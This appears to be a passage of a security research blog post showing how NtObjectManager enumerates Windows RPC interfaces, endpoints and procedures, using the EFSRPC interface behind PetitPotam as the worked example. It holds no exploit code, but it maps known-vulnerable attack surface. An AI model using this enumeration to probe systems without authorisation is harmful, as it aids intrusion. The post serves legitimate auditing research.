


**TL;DR - Windows RPC enumeration, discovery, and auditing via NtObjectManager. We will audit the vulnerable RPC interfaces that lead to PetitPotam, discover how they have changed over the past year, and overcome some common RPC auditing pitfalls.**

I was inspired by [From RpcView to PetitPotam](https://itm4n.github.io/from-rpcview-to-petitpotam/) from [@itm4n](https://twitter.com/itm4n), an excellent post that taught me how to use [RpcView](https://github.com/silverf0x/RpcView) to discover the RPC interfaces and in particular the [one](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) that enabled [PetitPotam](https://github.com/topotam/PetitPotam) by [@topotam77](https://twitter.com/topotam77). In the post, *itm4n* progresses from RPC interface discovery to teaching us how to build a RPC client to flex the vulnerable interface. This post is a spinoff of that same topic, this time leveraging James Forshaw's ([@tiraniddo](https://twitter.com/tiraniddo)) [NtObjectManager](https://www.powershellgallery.com/packages/NtObjectManager/1.1.32).  It was also a perfect opportunity to learn how to use *NtObjectManager* for RPC research and auditing using a well known example.

*Itm4n* walks through complex topics for Windows RPC with seeming ease. Covering the high level aspects and offering clarity for nuanced RPC concepts such as binding handles with [clear pictures](https://itm4n.github.io/from-rpcview-to-petitpotam/#:~:text=Unlike%20with%20kernel%20object%20handles%20though%2C%20there%20are%20multiple%20types%20of%20binding%20handles%3A%20automatic%2C%20implicit%20and%20explicit.). A topic in which MSDN quickly [lost me](https://docs.microsoft.com/en-us/windows/win32/rpc/types-of-binding-handles). More to the point of this post, he explains how to leverage RpcView to:
- discover interesting *interfaces*, *procedures*, and *endpoints*
- decomplile a RPC EFS interface related to PetitPotam
- help build a RPC client in Visual Studio to exercise the EFS interface 

At the end of the post, *Itm4n* alludes to other ways of doing what he did and even references the toolset I'm about to walk through.

> Finally, implementing an RPC client in C/C++ isn’t necessarily the best approach if you are doing some security oriented research as this process is rather time-consuming. However, I would still recommend it because it is a good way to learn and have a better understanding of some Windows internals. **As an alternative, a more research oriented approach would consist in using the NtObjectManager** module developed by James Forshaw. This module is quite powerful as it allows you to interact with an RPC server in a few lines of PowerShell. As usual, James wrote an excellent article about it here: Calling Local Windows RPC Servers from .NET.
> [From RpcView to PetitPotam](https://itm4n.github.io/from-rpcview-to-petitpotam/)

Now we are going to try and walk through the alternative approach using *NtObjectManager*.  Perhaps, by the end we can discover together some pros and cons of each toolset.

## NtObjectManager and RPC

The [NtObjectManager](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtObjectManager) PowerShell module (backed by its supporting .NET managed library [NtApiDotNet](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtApiDotNet)) is a godsend for Windows security researchers. From dealing with [symbolic links](https://offsec.almond.consulting/intro-to-file-operation-abuse-on-Windows.html), [auditing](https://googleprojectzero.blogspot.com/2019/12/calling-local-windows-rpc-servers-from.html) RPC servers, playing tricks with the [Object Manager](https://www.trustedsec.com/blog/object-overloading/), to just messing about with Windows, it has a myriad of applications. As one trying to improve their own auditing skills and understanding Windows internals, I am grateful for it.  Right now I'll admit that I am just touching the surface of the capability of the toolset. There are some [advanced use cases](https://www.tiraniddo.dev/2020/07/generating-ndr-type-serializers-for-c.html) that I have yet to get my head around. This post will be a step in the right direction.  Before we jump into how to use *NtObjectManager* for RPC auditing, let's take a short walk through the history of the RPC capabilities within *NtApiDotNet*.

Forshaw put together *NtObjectManager* and his [sandbox attack surface analysis tool kit](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools) for expediting his own research and the benefit of others. He is known to develop tools where he can't find any other solutions in support of his security research.

> As much as I enjoy finding security vulnerabilities in Windows, in many ways I prefer the challenge of writing the tools to make it easier for me and others to do the hunting. [Calling Local Windows RPC Servers from .NET](https://googleprojectzero.blogspot.com/2019/12/calling-local-windows-rpc-servers-from.html)

The RPC capabilities within *NtApiDotNet* have been there for sometime with their formal introduction being the ["Reimplementing Local RPC in .NET"](https://www.youtube.com/watch?v=2GJf8Hrxm4k) talk. Here I am in 2022, finally getting around to playing with the toolset.

### RPC History

Essentially this is a list of RPC references for NtObjectManager.

`cat README.txt | grep -i -e "rpc" -e "ndr"`

- [v1.1.12](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/releases/tag/v1.1.12)
    - Added basic NDR parser.
- [v1.1.16](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/releases/tag/v1.1.16)
    - Added support for extracting RPC servers from a DLL.
    - Added support for enumerating registered RPC endpoints with Get-RpcEndpoint.
    - Added support for enumerating running service information with Get-RunningService.
- [v1.1.17](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/releases/tag/v1.1.17)
    - Added option to parse out RPC clients in Get-RpcServer
    - Added Get-RpcAlpcServer cmdlet
- [v1.1.21](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/releases/tag/v1.1.21)
    - Added basic RPC ALPC client support
- [v1.1.23](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/releases/tag/v1.1.23)
    - Added Compare-RpcServer.
    - Added option to Format-RpcClient to output to a directory.
    - Added Select-RpcServer cmdlet.
    - Added RPC ALPC port brute force. 
- [v1.1.28](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/releases/tag/v1.1.28)
    - Added C# compiler support for .NET Core Support of Get-RpcClient.
- [v1.1.30](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/releases/tag/v1.1.30)
    - Added basic named pipe support for RPC clients.
- [v1.1.31](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/releases/tag/v1.1.31)
    - Added TCP/IP RPC transport and add signing/encryption.
    - Added Disconnect-RpcClient.
    - Added server information for local RPC connection
- [v1.1.33](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/releases/tag/v1.1.33)
    - Added RPC pipe support.

Doing a bit more digging, it seems RPC functionality appeared within `NtApiDotNet` in 2018. The first evidence I can see of an [NDR parser](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/v1.1.12/NtApiDotNet/Ndr/NdrRpcServerInterface.cs) in NtApiDotNet from release tag [v1.1.12](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/releases/tag/v1.1.12). By July 2018, the ability to parse RPC servers [was there](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/commit/6801e082a8eea5fb54a621e8a383ae5b6fe469a5) and in November of 2018, NtObjectManager Forshaw put out a post demonstrating the ability to [parse RPC servers and clients](https://www.tiraniddo.dev/2018/11/finding-windows-rpc-client.html). At this point, NtApiDotNet was yet to have a RPC client generator, which seemed to arrive mid 2019 in [NtObjectManger v1.1.21](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/releases/tag/v1.1.21) . The RPC C# client generator, as we will use later instead of a Visual Studio C++ and MIDL compiler, can greatly reduce the time needed to create an RPC client.  In 2019, Forshaw posted [a tutorial](https://googleprojectzero.blogspot.com/2019/12/calling-local-windows-rpc-servers-from.html) that walks us through the primary use cases for NtObjectManger in survey of the RPC landscape. That article will also be our starting point using NtObjectManager to rediscover PetitPotam a bit [later](#ntobjectmanager-for-rpc-auditing).

### Implementation

> The implementation I developed is all available in the [Sandbox Analysis Tools Github repository](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools). The implementation contains [classes](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/master/NtApiDotNet/Ndr) to load DLLs/EXEs and extract RPC server information to a .NET object. It also contains [classes](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/master/NtApiDotNet/Ndr/Marshal) to marshal data using the Network Data Representation (NDR) protocol as well as the [Local RPC client code](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/master/NtApiDotNet/Win32/Rpc/Transport). Finally I implemented a [client generator](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/master/NtApiDotNet/Win32/Rpc/RpcClientBuilder.cs) which takes in the parsed RPC server information and generates a C# source code file. 
> [Calling Local Windows RPC Servers from .NET](https://googleprojectzero.blogspot.com/2019/12/calling-local-windows-rpc-servers-from.html)

The primary capabilities of the toolset are ideal for diving into RPC. The high level features I have seen are:
- RPC Server (and client) [enumeration and discovery](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/067c7581fdbaca482525063ad73ef0d134598cff/NtObjectManager/RpcFunctions.ps1#L253)
- RPC Client [generation](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/067c7581fdbaca482525063ad73ef0d134598cff/NtObjectManager/RpcFunctions.ps1#L526)
- RPC Server [Diffing](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/blob/c02ed8ba04324e54a0a188ab9877ee6aa372dfac/NtObjectManager/Cmdlets/Rpc/CompareRpcServerCmdlet.cs#L36)

## NtObjectManager for RPC Auditing

Last time in [A Survey of Windows RPC Discovery Tools](https://clearbluejar.github.io/posts/surveying-windows-rpc-discovery-tools/), we obtained a detailed understanding of how some of these RPC enumeration tools work under the hood. This post will be more practical. In this section we recreate the RPC auditing from [RPCView to Petitpotam](https://itm4n.github.io/from-rpcview-to-petitpotam/) by leveraging Forshaw's *NtObjectManager*.

Before we get going, make sure you setup your *DbgHelp* DLL path before we get started.

```PowerShell
PS C:\Users\user> Set-GlobalSymbolResolver -DbgHelpPath 'C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\dbghelp.dll' 
```

### Use NtObjectManager to Discover interesting Interfaces, Endpoints, Procedures

As mentioned above and detailed by *itm4n*, RpcView provides a nice GUI and a workflow which you can pivot from a running *process* to the RPC *interfaces* and *endpoints* found within that process. I detailed in [which contexts I might use each tool](https://clearbluejar.github.io/posts/surveying-windows-rpc-discovery-tools/#when-to-use-which-tool), but after writing this post I feel like NtObjectManager is the front runner for general RPC auditing.

{: .shadow }_RpcView GUI_

By the time you see the GUI, and again on a set interval, RpcView automatically discovers the running processes that contain RPC servers. As we have learned, *NtObjectManager* in contrast, does not have a GUI and also does not analyze processes at runtime. Rather, the first step to RPC server discovery is to feed a list of files to be parsed by `Get-RpcServer` in *NtObjectManager*.  Each file path piped into `Get-RpcServer` will be loaded in memory, parsed and have each image section checked for the [aforementioned](https://clearbluejar.github.io/posts/surveying-windows-rpc-discovery-tools/#code-1) RPC data structures.

```powershell
# Find all servers in SYSTEM32. 
PS C:\Users\user> $allrpc = ls "C:\Windows\system32\*" -Include "*.dll","*.exe" `
  | Get-RpcServer

```

It will take about a minute or so to chug through all the binaries in *System32*...

```powershell
PS C:\Users\user> Measure-Command {$allrpc = ls "C:\Windows\system32\*" -Include "*.dll","*.exe" | Get-RpcServer }

Days              : 0
Hours             : 0
Minutes           : 0
Seconds           : 59
Milliseconds      : 262
Ticks             : 592628678
TotalDays         : 0.000685912821759259
TotalHours        : 0.0164619077222222
TotalMinutes      : 0.987714463333333
TotalSeconds      : 59.2628678
TotalMilliseconds : 59262.8678
```

{: .shadow }_NtObjectManager in action_

*NtObjectManager* found 456 RPC Servers (or interfaces) on my Windows 11 machine: 
```powershell
PS C:\Users\user> $allrpc | Measure-Object -Line

Lines Words Characters Property
----- ----- ---------- --------
  456
```

The result of parsing all the interfaces from the RPC servers from the binaries (and there often multiple interfaces within one binary) will look something like this:

```powershell
PS C:\Users\user> $allrpc  | more

Name                                                         UUID                                 Ver Procs EPs Service                   Running
----                                                         ----                                 --- ----- --- -------                   -------
ACPBackgroundManagerPolicy.dll                               fc48cd89-98d6-4628-9839-86f7a3e4161a 1.0 9     10                            False
adhsvc.dll                                                   c49a5a70-8a7f-4e70-ba16-1e8f1f193ef1 1.0 7     4                             False
AggregatorHost.exe                                           7df1ceae-de4e-4e6f-ab14-49636e7c2052 1.0 2     1                             False
APHostService.dll                                            d2716e94-25cb-4820-bc15-537866578562 1.0 8     1   OneSyncSvc                False
appidsvc.dll                                                 8a7b5006-cc13-11db-9705-005056c00008 1.0 4     0   AppIDSvc                  False
appinfo.dll                                                  0497b57d-2e66-424f-a0c6-157cd5d41700 1.0 9     1   Appinfo                   True
appinfo.dll                                                  58e604e8-9adb-4d2e-a464-3b0683fb1480 1.0 1     1   Appinfo                   True
appinfo.dll                                                  fd7a0523-dc70-43dd-9b2e-9c5ed48225b1 1.0 1     1   Appinfo                   True
appinfo.dll                                                  5f54ce7d-5b79-4175-8584-cb65313a0e98 1.0 1     1   Appinfo                   True
appinfo.dll                                                  201ef99a-7fa0-444c-9399-19ba84f12a1a 1.0 7     1   Appinfo                   True
appinfo.dll                                                  0f738e20-73c0-4ca8-aa6a-8dfef545fea8 1.0 1     1   Appinfo                   True
appmgmts.dll                                                 8c7daf44-b6dc-11d1-9a4c-0020af6e7c57 1.0 9     0   AppMgmt                   False
AppVEntSubsystemController.dll                               8c7fbdb0-8513-44f9-a8b1-1a3b49322bf4 1.0 1     0                             False
AppVEntSubsystemController.dll                               4b183cf6-affd-4872-9da2-7564b683d027 1.0 6     0                             False
AppVEntSubsystemController.dll                               71d6addc-3548-4d49-8580-589694df3c9d 1.0 2     0                             False
AppVEntSubsystemController.dll                               8d17061c-534a-4f1b-bd77-f615421cf379 1.0 4     0                             False
AppVEntSubsystemController.dll                               6d809348-7e6c-41b9-91bc-630fe5503d66 1.0 1     0                             False
AppVEntSubsystemController.dll                               44e10347-37a0-494c-871c-fb90f7145742 1.0 10    0                             False
AppVEntSubsystemController.dll                               edce686d-acae-4a2a-8945-24489443c35e 1.0 1     0                             False
AppVEntSubsystemController.dll                               af1e812f-2d47-4c99-9b36-15984de66d89 1.0 2     0                             False
AppVEntSubsystemController.dll                               461e6f82-89d8-4b7b-95ca-2e5c965953fc 1.0 22    0                             False
AppVEntSubsystemController.dll                               66055171-882c-4625-8fd7-cc7c30e2b226 1.0 1     0                             False
AppVEntSubsystems64.dll                                      8a92a787-eba6-4d09-ba84-0a8cb293bc30 1.0 1     0                             False
AppVShNotify.exe                                             a80a054e-95a5-46b2-9b3b-afdb29f247fb 1.0 1     0                             False
AppVShNotify.exe                                             7f89f606-468e-4ee4-b1f3-73b68767b0e1 1.0 1     0                             False
AppVShNotify.exe                                             6bbd4016-73b6-4fac-81c4-f2256dcee12d 1.0 1     0                             False
AppXDeploymentServer.dll                                     ae2dc901-312d-41df-8b79-e835e63db874 1.0 79    1   AppXSvc                   True
AppXDeploymentServer.dll                                     ff9fd3c4-742e-45e0-91dd-2f5bc632a1df 1.0 3     1   AppXSvc                   True
audiodg.exe                                                  bc6d982b-e799-48b2-a732-4ac111923bc6 1.0 8     0                             False
audiosrv.dll                                                 99b833a0-e768-4a17-b117-0e32fa4b6bb9 2.8 169   0   Audiosrv                  True
audiosrv.dll                                                 c7ce3826-891f-4376-b161-c63d2403142c 1.0 1     0   Audiosrv                  True
audiosrv.dll                                                 cba4c918-e55a-46ee-aa62-cade158e9165 1.0 1     0   Audiosrv                  True
audiosrv.dll                                                 910562c3-ebd9-46b9-baba-1d45842a0ceb 1.0 12    0   Audiosrv                  True
audiosrv.dll                                                 2b29a846-9ad7-49b6-bc52-b019c5c0c56f 1.6 55    0   Audiosrv                  True
authz.dll                                                    0b1c2170-5732-4e0e-8cd3-d9b16f3b84d7 0.0 7     0                             False
bdesvc.dll                                                   ae55c4c0-64ce-11dd-ad8b-0800200c9a66 1.0 13    1   BDESVC                    True
BFE.DLL                                                      dd490425-5325-4565-b774-7e27d6c09c24 1.0 194   1   BFE                       True

# several lines ommited
```


`$allrpc` now contains a collection of `NtApiDotNet.Win32.RpcServer` objects that may or may not also include clients. 

```
PS C:\Users\user> $rpc[0] | Get-Member


   TypeName: NtApiDotNet.Win32.RpcServer

Name                   MemberType Definition
----                   ---------- ----------
Equals                 Method     bool Equals(System.Object obj)
FormatAsText           Method     string FormatAsText(), string FormatAsText(bool remove_comments), string FormatAsText(bool remove_comments, bool cpp_format)
GetHashCode            Method     int GetHashCode()
GetType                Method     type GetType()
ResolveRunningEndpoint Method     string ResolveRunningEndpoint()
Serialize              Method     void Serialize(System.IO.Stream stm), byte[] Serialize()
ToString               Method     string ToString()
Client                 Property   bool Client {get;}
ComplexTypes           Property   System.Collections.Generic.IEnumerable[NtApiDotNet.Ndr.NdrComplexTypeReference] ComplexTypes {get;}
```


#### Interfaces

If you know the specific interface that you are looking for, it is quite easy to find using *NtObjectManager*.  For *PetitPotam* the [EFSRPC](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ab3c0be4-5b55-4a08-b198-f17170100be6) interface was `c681d488-d850-11d0-8c52-00c04fd90f7e`.  To discover that the following command would work.

```powershell
PS C:\Users\user> $allrpc | Select-RpcServer -InterfaceId 'c681d488-d850-11d0-8c52-00c04fd90f7e'

Name          UUID                                 Ver Procs EPs Service Running
----          ----                                 --- ----- --- ------- -------
efslsaext.dll c681d488-d850-11d0-8c52-00c04fd90f7e 1.0 21    0           False
```

For detailed information: 

```powershell
PS C:\Users\user> $allrpc | Select-RpcServer -InterfaceId 'c681d488-d850-11d0-8c52-00c04fd90f7e' | fl


InterfaceId           : c681d488-d850-11d0-8c52-00c04fd90f7e
InterfaceVersion      : 1.0
TransferSyntaxId      : 8a885d04-1ceb-11c9-9fe8-08002b104860
TransferSyntaxVersion : 2.0
ProcedureCount        : 21
Procedures            : {EfsRpcOpenFileRaw_Downlevel, EfsRpcReadFileRaw_Downlevel, EfsRpcWriteFileRaw_Downlevel, EfsRpcCloseRaw_Downlevel...}
Server                : UUID: c681d488-d850-11d0-8c52-00c04fd90f7e
ComplexTypes          : {Struct_0, Struct_1, Struct_2, Struct_3...}
FilePath              : C:\Windows\system32\efslsaext.dll
Name                  : efslsaext.dll
Offset                : 71808
ServiceName           :
ServiceDisplayName    :
IsServiceRunning      : False
Endpoints             : {}
EndpointCount         : 0
Client                : False
```

To discover other interesting interfaces, like the [MS-PAR](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/8405f9fc-556b-4bb4-b9bb-08b1e96802f3) protocol "[nightmare](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)" interface (`76F03F96-CDFD-44FC-A22C-64950A001209`), try this command (using a slight variation [`Where-Object`](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-7.2) showing that the `RpcServer` objects play nice with standard PS commands):

```powershell
PS C:\Users\user> $allrpc | Where-Object InterfaceId -eq '76F03F96-CDFD-44FC-A22C-64950A001209' | fl


InterfaceId           : 76f03f96-cdfd-44fc-a22c-64950a001209
InterfaceVersion      : 1.0
TransferSyntaxId      : 8a885d04-1ceb-11c9-9fe8-08002b104860
TransferSyntaxVersion : 2.0
ProcedureCount        : 81
Procedures            : {RpcAsyncOpenPrinter, RpcAsyncAddPrinter, RpcAsyncSetJob, RpcAsyncGetJob...}
Server                : UUID: 76f03f96-cdfd-44fc-a22c-64950a001209
ComplexTypes          : {Struct_0, Struct_1, Union_2, Struct_3...}
FilePath              : C:\Windows\system32\spoolsv.exe
Name                  : spoolsv.exe
Offset                : 538032
ServiceName           : Spooler
ServiceDisplayName    : Print Spooler
IsServiceRunning      : True
Endpoints             : {[76f03f96-cdfd-44fc-a22c-64950a001209, 1.0] ncacn_ip_tcp:[49669], [76f03f96-cdfd-44fc-a22c-64950a001209, 1.0] ncalrpc:[LRPC-6406b1545800cf205a]}
EndpointCount         : 2
Client                : False
```

#### Endpoints

For *endpoints* searching, you might know a [well-known](https://docs.microsoft.com/en-us/windows/win32/rpc/finding-endpoints#using-well-known-endpoints) endpoint or perhaps a specific [protocol sequence](https://docs.microsoft.com/en-us/windows/win32/rpc/protocol-sequence-constants) for your RPC server, and you can query to see which RPC server has that endpoint. 

Query your parsed servers that contain endpoints for named pipe endpoints:

```powershell
PS C:\Users\user> $allrpc | ? { $_.Endpoints } | ForEach-Object {$_.Endpoints} | Select-String ncacn_np

[df1941c5-fe89-4e79-bf10-463657acf44d, 1.0] ncacn_np:[\\pipe\\efsrpc]
[04eeb297-cbf4-466b-8a2a-bfd6a2f10bba, 1.0] ncacn_np:[\\pipe\\efsrpc]
[51a227ae-825b-41f2-b4a9-1ac9557a1018, 1.0] ncacn_np:[\\pipe\\lsass]
[8fb74744-b2ff-4c00-be0d-9ef9a191fe1b, 1.0] ncacn_np:[\\pipe\\lsass]
[b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86, 2.0] ncacn_np:[\\pipe\\lsass]
[650a7e26-eab8-5533-ce43-9c1dfce11511, 1.0] ncacn_np:[\\PIPE\\ROUTER]
[12345778-1234-abcd-ef00-0123456789ac, 1.0] ncacn_np:[\\pipe\\lsass]
[3a9ef155-691d-4449-8d05-09ad57031823, 1.0] ncacn_np:[\\PIPE\\atsvc]
[86d35949-83c9-4044-b424-db363231fd0c, 1.0] ncacn_np:[\\PIPE\\atsvc]
[29770a8f-829b-4158-90a2-78cd488501f7, 1.0] ncacn_np:[\\pipe\\SessEnvPublicRpc]
[1ff70682-0a51-30e8-076d-740be8cee98b, 1.0] ncacn_np:[\\PIPE\\atsvc]
[378e52b0-c0a9-11cf-822d-00aa0051e40f, 1.0] ncacn_np:[\\PIPE\\atsvc]
[f6beaff7-1e19-4fbb-9f8f-b89e2018337c, 1.0] ncacn_np:[\\pipe\\eventlog]
[d95afe70-a6d5-4259-822e-2c84da1ddb0d, 1.0] ncacn_np:[\\PIPE\\InitShutdown]
[76f226c3-ec14-4325-8a99-6a46348418af, 1.0] ncacn_np:[\\PIPE\\InitShutdown]
[76f226c3-ec14-4325-8a99-6a46348418af, 1.0] ncacn_np:[\\PIPE\\InitShutdown]
[7f1343fe-50a9-4927-a778-0c5859517bac, 1.0] ncacn_np:[\\PIPE\\wkssvc]
[33d84484-3626-47ee-8c6f-e7e98b113be1, 2.0] ncacn_np:[\\PIPE\\atsvc]

```

You don't have to rely on the RPC servers you have already parsed to get a list of endpoints. The RPC [Endpoint Mapper](https://www.windows-security.org/windows-service/rpc-endpoint-mapper) is running. Use the following command to query it. 

```powershell
PS C:\Users\user> get-help  Get-RpcEndpoint -examples

NAME
    Get-RpcEndpoint

SYNOPSIS
    Gets the endpoints for a RPC interface from the local endpoint mapper or by brute force.

```

These are the endpoints reported by the endpoint mapper on my Windows 11 machine. 

```powershell
PS C:\Users\user> Get-RpcEndpoint   | Select-String ncacn_np

[650a7e26-eab8-5533-ce43-9c1dfce11511, 1.0] ncacn_np:[\\PIPE\\ROUTER]
[2f5f6521-cb55-1059-b446-00df0bce31db, 1.0] ncacn_np:[\\pipe\\tapsrv]
[29770a8f-829b-4158-90a2-78cd488501f7, 1.0] ncacn_np:[\\pipe\\SessEnvPublicRpc]
[7f1343fe-50a9-4927-a778-0c5859517bac, 1.0] ncacn_np:[\\PIPE\\wkssvc]
[f6beaff7-1e19-4fbb-9f8f-b89e2018337c, 1.0] ncacn_np:[\\pipe\\eventlog]
[1ff70682-0a51-30e8-076d-740be8cee98b, 1.0] ncacn_np:[\\PIPE\\atsvc]
[378e52b0-c0a9-11cf-822d-00aa0051e40f, 1.0] ncacn_np:[\\PIPE\\atsvc]
[33d84484-3626-47ee-8c6f-e7e98b113be1, 2.0] ncacn_np:[\\PIPE\\atsvc]
[86d35949-83c9-4044-b424-db363231fd0c, 1.0] ncacn_np:[\\PIPE\\atsvc]
[3a9ef155-691d-4449-8d05-09ad57031823, 1.0] ncacn_np:[\\PIPE\\atsvc]
[76f226c3-ec14-4325-8a99-6a46348418af, 1.0] ncacn_np:[\\PIPE\\InitShutdown]
[d95afe70-a6d5-4259-822e-2c84da1ddb0d, 1.0] ncacn_np:[\\PIPE\\InitShutdown]
[12345778-1234-abcd-ef00-0123456789ac, 1.0] ncacn_np:[\\pipe\\lsass]
[b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86, 2.0] ncacn_np:[\\pipe\\lsass]
[8fb74744-b2ff-4c00-be0d-9ef9a191fe1b, 1.0] ncacn_np:[\\pipe\\lsass]
[51a227ae-825b-41f2-b4a9-1ac9557a1018, 1.0] ncacn_np:[\\pipe\\lsass]
```

Fewer endpoints reported in the dynamic query because **NtObjectManager will find the RPC servers whether or not they are running or advertised in the mapper**.

#### Procedures

Sometimes when we are looking for interesting procedures, an interesting keyword is all that we need. Perhaps the term "connect" or "set" or even "file" can be enough to discover interesting procedures. *Itm4n* qualifies an interesting procedure in the article as one with the word "file" in the procedure name.

> File operations initiated by low-privileged users and performed by privileged processes (such as services running as `SYSTEM`) are always interesting to investigate because they might lead to local privilege escalation (or even remote code execution in some cases). On top of that, they are relatively easy to find and visualize, using [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) for instance. [From RpcView to PetitPotam](https://itm4n.github.io/from-rpcview-to-petitpotam/)

For RpcView the discovery of procedure names is a tedious, even if you know what you a looking for. You have to click each interface to see the list of procedures.

>When clicking on the LSASS process (1), we can see that it contains many RPC interfaces. So we go through them one by one and we stop on the one with the GUID `c681d488-d850-11d0-8c52-00c04fd90f7e` (2) because it exposes several procedures that **seem to perform file operations (according to their name)** (3). [From RpcView to PetitPotam](https://itm4n.github.io/from-rpcview-to-petitpotam/)

It can filter, just not by procedure name.
 
{: .shadow }_RpcView Filters_

Here is where NtObjectManager shines. If you want to find interesting procedure names you can use the provided cmdlet `Select-RpcServer`.

```powershell
PS C:\Users\user> Get-Help Select-RpcServer -Examples

NAME
    Select-RpcServer

SYNOPSIS
    Selects RPC server objects based on some specific criteria.


    ----------  EXAMPLE 1  ----------

    $rpc | Select-RpcServer -Name "Start"

    Select all servers which have a procedure containing the text Start.
    ----------  EXAMPLE 2  ----------

    $rpc | Select-RpcServer -SystemHandle

    Select all servers which have a procedure which take a system handle parameter.
    ----------  EXAMPLE 3  ----------

    $rpc | Select-RpcServer -SystemHandle -SystemHandleType File

    Select all servers which have a procedure which take a system handle parameter of type File.
```  
  
To find RPC servers with *procedure* names that include the keyword 'file':

```powershell
PS C:\Users\user> $allrpc | Select-RpcServer -Name 'file'

Name                                                         UUID                                 Ver Procs EPs Service                Running
----                                                         ----                                 --- ----- --- -------                -------
AggregatorHost.exe                                           7df1ceae-de4e-4e6f-ab14-49636e7c2052 1.0 2     1                          False
appidsvc.dll                                                 8a7b5006-cc13-11db-9705-005056c00008 1.0 4     0   AppIDSvc               False
appinfo.dll                                                  0497b57d-2e66-424f-a0c6-157cd5d41700 1.0 9     1   Appinfo                True
AppVEntSubsystemController.dll                               af1e812f-2d47-4c99-9b36-15984de66d89 1.0 2     0                          False
audiosrv.dll                                                 2b29a846-9ad7-49b6-bc52-b019c5c0c56f 1.6 55    0   Audiosrv               True
BFE.DLL                                                      dd490425-5325-4565-b774-7e27d6c09c24 1.0 194   1   BFE                    True
CmService.dll                                                f1c37891-201f-4aa3-94b1-a5d131b04920 1.0 46    1   CmService              True
DispBroker.Desktop.dll                                       509bc7ae-77be-4ee8-b07c-0d096bb44345 1.0 10    2   DispBrokerDesktopSvc   True
dot3svc.dll                                                  1bddb2a6-c0c3-41be-8703-ddbdf4f0e80a 1.0 21    0   dot3svc                False
dssvc.dll                                                    bf4dc912-e52f-4904-8ebe-9317c1bdd497 1.0 8     2   DsSvc                  True
dusmsvc.dll                                                  c27f3c08-92ba-478c-b446-b419c4cef0e2 1.0 26    1   DusmSvc                True
edgehtml.dll                                                 9ccb59aa-1358-4169-aebb-ed83357d6304 1.0 173   0                          False
efslsaext.dll                                                c681d488-d850-11d0-8c52-00c04fd90f7e 1.0 21    0                          False
efssvc.dll                                                   df1941c5-fe89-4e79-bf10-463657acf44d 1.0 53    2   EFS                    False
efssvc.dll                                                   04eeb297-cbf4-466b-8a2a-bfd6a2f10bba 1.0 7     2   EFS                    False
